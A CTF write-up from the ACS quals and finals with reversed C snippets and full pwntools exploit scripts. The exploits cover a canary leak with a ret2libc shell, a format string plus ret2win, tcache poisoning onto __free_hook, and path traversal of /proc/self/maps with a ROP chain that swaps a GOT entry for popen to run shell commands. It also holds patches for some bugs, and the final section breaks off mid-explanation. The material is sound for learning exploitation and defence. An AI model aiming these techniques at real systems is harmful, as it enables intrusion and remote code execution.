This is write-up for challenges which I solved during the event.

You can find attachments (included unsolved challenges) [here](https://github.com/robbert1978/ctf-2024/tree/main/acs).

# Quals round

Unfortunally, I couldn't solve any pwnable challenges because they are too hard but luckily there is a challenge in Audit catagory that I could solve it.

## no-name minor
[A float variable stop incrementing at 16777216](https://stackoverflow.com/questions/12596695/why-does-a-float-variable-stop-incrementing-at-16777216-in-c)

First, I load $16777216$ and buy a name. I loan one by one, and my cash increases, but the debt doesn’t change.



After buying the name, we can call the loan 1$ 1337, repay all of the debt, and change the name.

Taking advantage of printing user name to leak canary and libc’s address.

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("prob_patched")
libc = ELF("./libc.so.6")
gs = """
brva 0x01889
"""


def start():
    if args.LOCAL:
        p = e.process()
        if args.GDB:
            gdb.attach(p, gdbscript=gs)
            pause()
    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p


p = start()


def loan(num):
    p.sendline(b'1')
    p.sendline(
        str(num).encode())


def repay(num):
    p.sendlineafter(b"Choose an action.", b'2')
    p.sendlineafter(b'How much would you like to repay?\n', str(num).encode())


def mininig():
    p.sendlineafter(b"Choose an action.", b'3')
    p.sendlineafter(b'Enter mining work :', b'A'*4)


def buyName():
    p.sendlineafter(b"Choose an action.", b'4')


def reName(name):
    p.sendlineafter(b"Choose an action.", b'5')
    p.sendafter(b"Enter new name.\n", name)


loan(0x1000000)
buyName()
for i in range(1337):
    loan(1)

repay(0x1000000)
reName(b'A'*0x2c+b'B')
p.recvuntil(b"B")
canary = u64(b'\0'+p.recv(7))
log.success(hex(canary))

reName(b'A'*0x2c+b'B'*0x10)
p.recvuntil(b"B"*0x10)

libc.address = u64(p.recv(6)+b'\0\0') - (libc.sym.__libc_start_call_main+128)

reName(b'A'*0x2c+p64(canary)+b'B'*0x8 +
       p64(libc.address+0x000000000002a3e5) +
       p64(next(libc.search(b'/bin/sh'))) +
       p64(libc.address+0x000000000002a3e6) +
       p64(libc.sym.system)
       )

p.sendlineafter(b"Choose an action.", b'6')
p.interactive()
```



*Note: there is one challenge that I have exploit script but couldn't pass the timeout on remote.

# Final round

There are two types in this round. 

First is the defense type. You have to exploit the binary as normal but also try to patch the bug to prevent attacks from the bot.
The bot attacks one time per 15 minutes.

Second, is the jeopardy one. No need to patch but they are still so hard.

We can't solve any jeopardy challenges but we did solve all defense challenges.

## Oreo

Actually, I didn't solve this challenge. My teammate @thecrabsterchief solved this.

The challenge has some functions like this



* Bug 1: Format String at `error_log` function, which is called at `parsing` function

```c
unsigned __int64 __fastcall error_log(const char *a1)
{
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("[ERROR] ");
  printf(a1);
  return v2 - __readfsqword(0x28u);
}
```



⇒ How to trigger, set operation first, then choose oreo



* Bug 2: Buffer overflow on `mine` function



⇒ The scanf read until byte “\n” → overflow buffer quiz on bss, then copy to bufer dest on the stack.


* Exploit chains:

  - Use bug format string to leak base binary address and canary
  - Use bug Buffer overflow to overwrite return address of **`mine`** function to **`secret`** (ret2win)

* Script:

```python
""" ============================ Import ============================ """
from pwn import *
from pwn import p32, u32, p64, u64
import sys
""" ============================ Import ============================ """

libc = ELF("./libc.so.6", checksec=False)
context.binary = elf = ELF("./oreo_patched")
gs="""
brva 0x1762
brva 0x14F9
"""

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug(["./oreo_patched"] + argv, gdbscript=gs, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process(["./oreo_patched"] + argv, *a, **kw)

def operation(op: bytes):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", op)

# fmt bug
def oreo():
    io.sendlineafter(b"> ", b"2")
    io.recvuntil(b"[ERROR] ")
    return io.recvline().split(b"==========menu==========")[0]

# bof bug
def mine(buf: bytes):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b": ", buf)

if __name__ == "__main__":
    io = start()
    
    # Leak pie 0x168f
    operation(b"%11$p")
    elf.address = int(oreo(), 16) - 0x168f
    info("Leak pie: " + hex(elf.address))

    # Leak canary
    operation(b"%9$p")
    canary = int(oreo(), 16)
    info("Leak canary: " + hex(canary))

    # some gacha ???
    mine(p64(canary+1)*5 + p64(elf.sym["secret"]))
    mine(b"a"*24)
    mine(b"quit")
    io.interactive()
# ACS{Ooore_I3am_A_C@oki3_Monst3r!!&re7e}
```

* Patching Plan:

  - Format String bug, just patch the constant fmt:
      ```c
      unsigned __int64 __fastcall error_log(const char *a1)
      {
        unsigned __int64 v2; // [rsp+18h] [rbp-8h]

        v2 = __readfsqword(0x28u);
        printf("[ERROR] %s", a1);
        return v2 - __readfsqword(0x28u);
      }
      ```
    
  - Buffer overflow, just patch the length size when copying from bss to stack:
    ```c
    __isoc99_scanf("%[^\n]%*c", quiz);
    len_quiz = strlen((const char *)&answer[2 * r]);
    strncpy(dest, (const char *)&answer[2 * r], 0x08);
    dest[len_quiz] = 0;
    ```

## ezdb

After reversing the binary, I guess some name functions of it:



```c
struct Str
{
  int id;
  char *s;
};

struct Hold
{
  int ref;
  int cout;
  Str *sList;
};
```

The global variable at the address `0x04051E0` is a `Hold` pointer, it manages 7 `Str` objects.

When we call `del` it will call `delStr` :

```c
int __fastcall delStr(unsigned int a1)
{
  Str *pStr; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( (int)sub_401BE1() < 0 )
    return -4;
  if ( getStr(a1, &pStr) == -5 )
    return -5;
  free(pStr->s);
  pStr->id = -1;
  if ( ptr->ref )
    --ptr->ref;
  return 0;
}
```

We can see that it calls `free(pStr->s)` but doesn’t clear the pointer which can lead to double free or user after free.

The function `change` call `reEdit` :

```c

int __fastcall reEdit(unsigned int sIdx, int id, const void *buf, size_t size)
{
  Str *v7; // [rsp+20h] [rbp-10h]
  char *v8; // [rsp+28h] [rbp-8h]

  if ( sIdx >= ptr->cout )
    return -5;
  if ( id < 0 )
    return -5;
  v7 = &ptr->sList[sIdx];
  v7->id = id;
  if ( v7->s )
    free(v7->s);
  v8 = (char *)malloc(size + 1);
  if ( !v8 )
    return -6;
  v7->s = v8;
  memcpy(v7->s, buf, size);
  v7->s[size] = 0;
  return 0;
}
```

It frees the old pointer `free(v7->s)` and allocates new memory, but the bug is that maybe `v7->s` was deleted when calling `del` before that.

```python

add([(0,  0x20, b'0'*0x20)])
add([(1,  0x20, b'1'*0x20)])
add([(2,  0x600, b'2'*0x600)])

delete(2)
delete(0)

buf = b'0'*(0x100-0x10)+p64(0)+p64(0x31)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(2, 2, 0x68, b'_'*0x68)
```

First, I create three chunks and the last one is an extremely big chunk. When I free chuck2, it will be merged to top_chunk. That means when I take advantage of the bug to free it again, I can free something that is not chuck2 itself.

Calculating offset, I will make the old chunk2 pointer inside chunk0 and its fake size is 0x30.





Now it is easier because 0x30-chunk is inside chunk0. We can free 0x30-chunk and corrupt the tcache link-list.

```python
buf = b'0'*(0x70)+p64(0)+p64(0x31)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])
l = add([(1,  0x20, b'T'*0x20)])

delete(l)
buf = b'0'*(0x70)+p64(0)+p64(0x31)+p64(0)+p64(0)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(l, l, 0x38, b'_'*0x38)
```



Clear the fd so that we can double free 0x30-chunk without making the process abort.



We can see the Str list here, just tcache poisoning to change a `Str` object point to a `got` pointer so we can leak libc, and after that, tcache poisoning again to overwrite `__free_hook`.

Script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("ezdb_patched")
libc = e.libc

gs = """
ida_connect
# b add
# b del
# b reEdit
b *0x040171A
b system
"""

def start():
    if args.LOCAL:
        p = e.process()

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p

p = start()

def add(bufList: list):
    ret = []
    p.sendafter(b">", b'\x01')
    p.send(p32(len(bufList)))
    for s_ in bufList:
        p.send(p32(s_[0])+p32(s_[1])+s_[2])
        ret.append(u32(p.recv(4)))

    p.send(b'\n')
    return ret[0]

def edit(idx, newid, size, buf):
    p.sendafter(b">", b'\x02')
    p.send(
        p32(idx) +
        p32(newid) +
        p32(size) +
        buf
    )
    _ = p.recv(4)
    p.send(b'\n')
    return u32(_)

def show(idx):
    p.sendafter(b">", b'\x04')
    p.send(
        p32(idx)
    )
    p.send(b'\n')

def delete(idx):
    p.sendafter(b">", b'\x05')
    p.send(
        p32(idx)
    )
    p.send(b'\n')

add([(0,  0x20, b'0'*0x20)])
add([(1,  0x20, b'1'*0x20)])
add([(2,  0x600, b'2'*0x600)])

delete(2)
delete(0)

buf = b'0'*(0x100-0x10)+p64(0)+p64(0x31)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(2, 2, 0x68, b'_'*0x68)

buf = b'0'*(0x70)+p64(0)+p64(0x31)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])
l = add([(1,  0x20, b'T'*0x20)])

delete(l)
buf = b'0'*(0x70)+p64(0)+p64(0x31)+p64(0)+p64(0)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(l, l, 0x38, b'_'*0x38)

if args.GDB:
    gdb.attach(p, gdbscript=gs)
    pause()

lmao = add([(1,  0x20, b'T'*0x20)])
hehe = add([(1,  0x20, b'T'*0x20)])
delete(lmao)
delete(1)
show(hehe)
p.recvuntil(b'T'*8)
heap = u32(p.recv(4))-0x10

log.success(hex(heap))

add([(1,  0x20, b'1'*0x20)])

buf = b'0'*(0x20)+p64(0)+p64(0x31) + p64(heap+0x320)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(2, 2, 0x20, b'_'*0x20)
edit(3, 3, 0x20, p64(6)+p64(e.got.free)+p64(0)*2)

show(6)
p.recv(8)
libc.address = u64(p.recv(6)+b'\0\0') - libc.sym.free
log.success(hex(libc.address))

delete(1)
delete(hehe)

buf = b'0'*(0x20)+p64(0)+p64(0x31) + p64(libc.sym.__free_hook)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

add([(1,  0x20, b'sh\0'.ljust(0x20))])
add([(1,  0x20, p64(libc.sym.system)+p64(0)*3)])

delete(1)

p.interactive()

```

Sadly we have no more time ( during the competition time ) for patching the binary.

## CS1337

The first bug is buffer-overflow via cookie buffer

```c
  read(*a1, v13, 0x400uLL);
  src = strstr(v13, "Cookie: id=");
  if ( src )
  {
    src = (char *)src + 11;
    for ( i = src; *i != 10; ++i )
      ;
    if ( i )
      v18 = (_WORD)i - (_WORD)src - 1;
    memcpy(cookie, src, v18);
    cookie[v18] = 0;
  }
  if ( (unsigned int)get_posts_size() == 10 )
    remove_all_posts();
  if ( strstr(v13, "GET /login.html")
    || strstr(v13, "GET /signup.html")
    || strstr(v13, "POST /signup")
    || strstr(v13, "POST /login")
    || (unsigned int)is_valid_cookie(cookie) )
```

The second one is path traversal.

```c
int __fastcall send_file(int a1, char *path)
{
  size_t v2; // rax
  size_t v4; // rax
  const char *mime_type; // rax
  size_t v6; // rax
  int v7; // [rsp+Ch] [rbp-864h]
  size_t n; // [rsp+38h] [rbp-838h]
  char v9[1032]; // [rsp+40h] [rbp-830h] BYREF
  char *v10; // [rsp+448h] [rbp-428h]
  FILE *stream; // [rsp+450h] [rbp-420h]
  char *s; // [rsp+458h] [rbp-418h]
  _BYTE ptr[1024]; // [rsp+460h] [rbp-410h] BYREF
  char *haystack; // [rsp+860h] [rbp-10h]
  int v15; // [rsp+86Ch] [rbp-4h]

  v15 = a1;
  haystack = path;
  if ( strstr(path, "flag") )
  {
    s = "HTTP/1.1 403 Forbidden\nContent-Type: text/plain\n\nForbidden";
    v2 = strlen("HTTP/1.1 403 Forbidden\nContent-Type: text/plain\n\nForbidden");
    return write(v15, "HTTP/1.1 403 Forbidden\nContent-Type: text/plain\n\nForbidden", v2);
  }
  else
  {
    stream = fopen(haystack, "rb");
```

So we can take advantage of the second one to leak the address ( by reading /proc/self/maps ) and use the first one to ROP.

```python
#!/usr/bin/env python
from pwn import *
from time import sleep
import requests

context.binary = e = ELF("./cs1337_patched")
libc = e.libc
gs = """
brva 0x212D
"""

def start():
    global HOST, PORT
    if args.LOCAL:
        p = e.process()
        HOST = 'localhost'
        PORT = 1338

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
        HOST = host_port[0]
        PORT = host_port[1]
    return p

p = start()

sleep(1)

if args.GDB:
    gdb.attach(p, gdbscript=gs)
    pause()

io = remote(HOST, PORT)
io.send(f"""GET /../../../../../../../../../../../../../../../../proc/self/maps HTTP/1.1
Content-Length: 0\r
Cookie: id=pwn\r
Connection: keep-alive\r
\r\n""".encode())

io.recvuntil((b'HTTP/1.1 200 OK\n'
              b'Content-Type: text/plain\n'
              b'\n'))

e.address = int(io.recv(12).decode(), 16)

while True:
    _ = io.recvline()
    if b'libc.so.6' in _:
        break

libc.address = int(_[:12].decode(), 16)

log.info(hex(e.address))
log.info(hex(libc.address))

io.close()

RDI_RET = libc.address+0x000000000002a3e5
RSI_RET = libc.address+0x000000000002be51
RDX_R12_RET = libc.address+0x000000000011f2e7
RAX_RET = libc.address+0x0000000000045eb0
# mov [rdi], rax ; xor eax, eax ; ret
qwordRDI_RAX_RET = libc.address+0x0000000000042e83

rop = p64(RDI_RET)+p64(e.address) + \
    p64(RSI_RET)+p64(0xf000) + \
    p64(RDX_R12_RET)+p64(7)+p64(0) + \
    p64(libc.sym.mprotect) + \
    p64(RDI_RET)+p64(e.got.fopen) + \
    p64(RAX_RET)+p64(libc.sym.popen) + \
    p64(qwordRDI_RAX_RET) + \
    p64(RDI_RET)+p64(e.address+0x33DF) + \
    p64(RAX_RET)+b'r'+b'\0'*7 + \
    p64(qwordRDI_RAX_RET) + \
    p64(RDI_RET)+p64(e.address+0x339F) + \
    p64(RAX_RET)+b'r'+b'\0'*7 + \
    p64(qwordRDI_RAX_RET) + \
    p64(RDI_RET)+p64(9999999) + \
    p64(libc.sym.sleep)

io = remote(HOST, PORT)
io.send("""GET / HTTP/1.1
Content-Length: 0\r
Cookie: id=""".encode()+b'\0'*0x28+rop+b'\r\n')

io.close()

sleep(1)
pause()

# io = remote(HOST, PORT)
# io.send("""GET /ls HTTP/1.1
# Content-Length: 0\r
# Cookie: id=pwn\r\n""".encode())
# io.interactive()

io = remote(HOST, PORT)
io.send("""GET /cat<flag_2f5b7b1cb601ee86b4ede919f94958fd HTTP/1.1
Content-Length: 0\r
Cookie: id=pwn\r\n""".encode())

io.interactive()

p.interactive()

```

Because the client interacts with the process through a socket running on a sub-thread, so we can’t just drop the shell. I use the ROP chain to patch the binary itself (”flag” → “r” to read the flag and `strstr@got`→ `popen` to know the flag file’s name).

* Patch:

My patch is checking the size before copy to the cookie buffer:



and also changed `strstr(path, "flag")` to `strstr(path, "/")` , the flag file’s name is random so a strict / character is better:



## **vote your favorite ctf!**

In the `add` function:

```c
  printf("wanna upload photo? ");
  __isoc99_scanf(" %c", &v14);
  if ( v14 == 121 || v14 == 89 )
  {
    *(_BYTE *)(qword_82C0[v19] + 12LL) = 1;
    printf("width? ");
    __isoc99_scanf("%hd", &v15);
    printf("height? ");
    __isoc99_scanf("%hd", &v16);
    getchar();
    if ( v15 > 47 || v16 > 47 )
      exit(-1);
    sub_347A(qword_82C0[v19], (unsigned int)v15);
    sub_349A(qword_82C0[v19], (unsigned int)v16);
    puts("reading photo below>>");
    v4 = (void *)sub_3602(qword_82C0[v19]);
    memset(v4, 0, 8uLL);
    v5 = v15 * v16;
    v6 = (void *)sub_3602(qword_82C0[v19]);
    read(0, v6, v5);
```

we see that v15 and v16 can be < 0 but v15*v16 will be a positive number , it’s big enough for heap overflow.

But there is a checksum function that `maybe` detects the object is overwritten:

```c
__int64 __fastcall sub_34BA(__int64 a1)
{
  __int16 i; // [rsp+Eh] [rbp-Ah]
  __int64 v3; // [rsp+10h] [rbp-8h]

  v3 = 0x1337133713371337LL;
  for ( i = 0;
        i < *(__int16 *)(a1 + 20) * *(__int16 *)(a1 + 22)
     && *(__int16 *)(a1 + 20) >= 0
     && *(__int16 *)(a1 + 22) >= 0
     && i <= 2303;
        ++i )
  {
    v3 = 23 * v3 + *(char *)(a1 + i + 56);
  }
  return v3;
}
```

I’m too lazy to analyze that function, when overwriting an object, 

```python
add(0, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8))
```

I set the breakpoint when it compares the return value and the sum:

